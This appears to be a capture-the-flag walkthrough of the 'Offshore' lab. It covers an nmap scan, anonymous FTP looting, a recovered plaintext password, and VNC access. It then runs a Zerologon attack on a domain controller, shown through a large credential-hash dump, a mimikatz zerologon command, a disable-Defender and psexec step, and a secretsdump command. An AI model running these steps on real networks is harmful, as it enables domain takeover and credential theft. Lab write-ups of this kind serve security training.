

Credentials for LAB domain admin
Do an nmap of JOE-LPTP
└─$ nmap -sV -sC 172.16.1.201
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 00:53 EDT
Nmap scan report for 172.16.1.201
Host is up (0.037s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open tcpwrapped
| ftp-syst:
|_ SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 05-01-23 08:50PM <DIR> .dbus-keyrings
| 10-11-20 07:01PM <DIR> .vscode
| 10-10-20 10:13PM <DIR> 3D Objects
| 10-10-20 10:13PM <DIR> Contacts
| 08-01-22 10:05PM <DIR> Desktop
| 10-18-20 01:57PM <DIR> Documents
| 04-17-21 10:03AM <DIR> Downloads
| 10-10-20 10:13PM <DIR> Favorites
| 10-10-20 10:13PM <DIR> Links
| 10-24-20 10:42AM <DIR> Music
| 10-22-20 05:31AM <DIR> OneDrive
| 10-11-20 06:52PM <DIR> Pictures
| 10-10-20 10:13PM <DIR> Saved Games
| 10-10-20 10:15PM <DIR> Searches
|_10-16-20 05:31PM <DIR> Videos
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5800/tcp open vnc-http TightVNC (user: joe-lptp; VNC TCP port: 5900)
|_http-title: TightVNC desktop [joe-lptp]
5900/tcp open vnc VNC (protocol 3.8)
| vnc-info:
| Protocol version: 3.8
| Security types:
| VNC Authentication (2)
| Tight (16)
| Tight auth subtypes:
|_ STDV VNCAUTH_ (2)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2023-05-02T04:53:35
|_ start_date: N/A
|_nbstat: NetBIOS name: JOE-LPTP, NetBIOS user: <unknown>, NetBIOS MAC: 005056b9caca (VMware)
| smb2-security-mode:
| 311:
|_ Message signing enabled but not required
Anonymous FTP is wide open so let's take a look with FileZilla (but be sure to enable hidden files in Server -> Force showing hidden files)
There is a flag right in the desktop directory when you open the connection
OFFSHORE{st0p_us1ng_fr33warez!}
A Carbon FTP shortcut - there is this vulnerability for Carbon FTP - Link
This says the user can store their password in C:\Users\<VICTIM>\AppData\Roaming\Neowise\CarbonFTPProjects
We happen to have access to that via the FTP so let's check
Another flag is in that directory
OFFSHORE{An0N_FtP_c@n_rev3al_tr3asUre$}
We also have the CFTP file to do the exploit with
We have our credentials for joe : Dev0ftheyear!
Earlier we saw the VNC port 5900 was open in our nmap scan, VNC in with these creds now
We find a file in C:\Users\joe\Music called clean.ps1 - open it up and it has stop process 7zFM
Let's open 7zip and see what we find
This physical drive is odd, let's check it out
Going through the Phsyical Drives we find another flag
Checking the other folders in the FTP we find a CherryTree file
Open the CTB file in CherryTree

It seems DC0 might be vulnerable to zero logon. Let's try it. Metasploit has a module..
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x6ec0b591c3e5101ddeb9ea51d51f2943
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:797952ec54e1c3cbecafa37ff2f1bae5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
LAB\DC0$:aes256-cts-hmac-sha1-96:d4e013e7ce31e082caef2c27ab3b20115c88cb06f55982e699a307356ea3f86e
LAB\DC0$:aes128-cts-hmac-sha1-96:8f524f15aab8d8fbde3f99f1be5f3e0d
LAB\DC0$:des-cbc-md5:6837d9684c8367ec
LAB\DC0$:aad3b435b51404eeaad3b435b51404ee:a07bf244bd5d9b1816657afa9e76a4c8:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x836190a58db353b803aaba63897fe7424ba403fa
dpapi_userkey:0x04505586f313bd7ee23600b64415690268e2e880
[*] NL$KM
0000 B5 46 41 75 ED 53 90 AB CB 0A 4B AE 6E 79 AB DA .FAu.S....K.ny..
0010 25 DE 44 2B 22 1F 0A 7B DC 5E F7 0B FA 66 A8 9B %.D+"..{.^...f..
0020 CB 37 DE 4E FE 28 D8 DF 1E 99 28 71 CE 87 95 C7 .7.N.(....(q....
0030 41 27 1F C5 17 55 A0 46 12 5E 36 F1 99 3E 8B DD A'...U.F.^6..>..
NL$KM:b5464175ed5390abcb0a4bae6e79abda25de442b221f0a7bdc5ef70bfa66a89bcb37de4efe28d8df1e992871ce8795c741271fc51755a046125e36f1993e8bdd
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f6aaf1438d78c89c4636179e3ae18ea:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:30ac45b0c7b323178bca5ef51bd2216e:::
joe:1103:aad3b435b51404eeaad3b435b51404ee:4568151a41ac1b353f40f4dc7f90f19d:::
joe_adm:1104:aad3b435b51404eeaad3b435b51404ee:027bd5f86a054db22021a73c06fbd8ea:::
DC0$:1000:aad3b435b51404eeaad3b435b51404ee:a07bf244bd5d9b1816657afa9e76a4c8:::
JOE-LPTP$:1601:aad3b435b51404eeaad3b435b51404ee:7e6845ba911013cc920b9925324f93ea:::
SRV01$:1602:aad3b435b51404eeaad3b435b51404ee:3a5aaa10c5c5a6f92827d6b045e776da:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:575c40111e33699575dd2e9b96e8fd7092ec8b894e796e7fbd86119d5f9dd215
Administrator:aes128-cts-hmac-sha1-96:d2d8c940a641020e4d4294afbf137e36
Administrator:des-cbc-md5:d331fd4573efeff2
krbtgt:aes256-cts-hmac-sha1-96:7bdeef07937a2a2cdb6dfc4796493e58da35fda184ba8191857c1fdce64ef7f3
krbtgt:aes128-cts-hmac-sha1-96:ec30c953a344851ee128167bec7e134a
krbtgt:des-cbc-md5:ea5ecb1504989bf1
joe:aes256-cts-hmac-sha1-96:c4408c4769a1780570f2a2e9f6d69c066cfba8584f9e1d8d87316fd75c1a5afe
joe:aes128-cts-hmac-sha1-96:26cbcd8dd951ba95c8ff1cd20a7f98a6
joe:des-cbc-md5:ba0e45195258f72f
joe_adm:aes256-cts-hmac-sha1-96:9f91c98be2a9b06866b5e84096fc2e64bdbc8809991423c5a7023d19355f0c57
joe_adm:aes128-cts-hmac-sha1-96:c894c6e3d6918f17e65dc1700bedfa65
joe_adm:des-cbc-md5:67ab37a76b0ea126
DC0$:aes256-cts-hmac-sha1-96:d4e013e7ce31e082caef2c27ab3b20115c88cb06f55982e699a307356ea3f86e
DC0$:aes128-cts-hmac-sha1-96:8f524f15aab8d8fbde3f99f1be5f3e0d
DC0$:des-cbc-md5:6837d9684c8367ec
JOE-LPTP$:aes256-cts-hmac-sha1-96:b09f59b3f8303d2f921160f92e8e5d18c374e54540c0492c4c877407ae0aee9b
JOE-LPTP$:aes128-cts-hmac-sha1-96:45cbf01d384c24770776b026817d7782
JOE-LPTP$:des-cbc-md5:80838c9e8567153e
SRV01$:aes256-cts-hmac-sha1-96:3ad5249cfe0f8bfb9c287835dfc2f81fc62a9af171b4ca285105a4f77ce469e0
SRV01$:aes128-cts-hmac-sha1-96:98a627dcb2b9680ed0f54ffac1a2a6a5
SRV01$:des-cbc-md5:c46419c467451007
If the above exploit doesn't work, you can execute it with mimikatz from DC01.
Make sure Defender is off, psexec -s -i cmd so you are nt authority\system, and here is the mimikatz command.
privilege::debug
lsadump::zerologon /account:srv01$ /target:dc0.lab.offshore.local /exploit /null /ntlm
└─$ python secretsdump.py -just-dc -no-pass SRV01\$@172.16.1.200